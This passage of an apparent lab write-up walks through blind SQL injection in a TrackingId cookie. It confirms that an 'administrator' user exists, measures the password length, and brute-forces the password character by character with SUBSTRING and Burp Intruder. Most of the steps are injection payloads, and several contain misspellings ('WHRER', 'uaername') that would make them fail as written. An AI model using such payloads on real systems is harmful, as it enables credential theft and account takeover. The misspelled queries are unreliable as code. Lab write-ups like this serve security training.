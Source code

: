 
4. Check that table users content the user called **administrator** 
	- `TrackingId=Vfnb2EsFrcwE4KWg' AND (SELECT 'a' FROM users WHRER username='administrator')='a`
	![](assets/Pasted%20image%2020251010205234.png)

5. Check the length of the password for the user **administrator** greater than 1
	- `TrackingId=Vfnb2EsFrcwE4KWg' AND (SELECT 'a' FROM users WHERE uaername='administrator' AND LENGTH(password)>1)='a`
	- you can increase the number of length for password to get the correct length for the password. OR you can go to **Intruder** and change the number automatic you can get the length of password will equal 20.
	![](assets/Pasted%20image%2020251010205405.png)
	![](assets/Pasted%20image%2020251010205507.png)
	- `TrackingId=Vfnb2EsFrcwE4KWg' AND (SELECT 'a' FROM users WHERE uaername='administrator' AND LENGTH(password)>20)='a`.
	
	
6.  Now we want to make the brute force for the password for the user called administrator.
	- Check the first character will equal 'a'  or not with making SUBSTRING(parameter,position,length).
	- `TrackingId=Vfnb2EsFrcwE4KWg' AND (SELECT substring(password,1,1) FROM users WHERE uaername='administrator')='a'--`
	
	- and this step you cannot do manually you can use Burp Suite with **Intruder** it will do this better
	![](assets/Pasted%20image%2020251012130001.png)
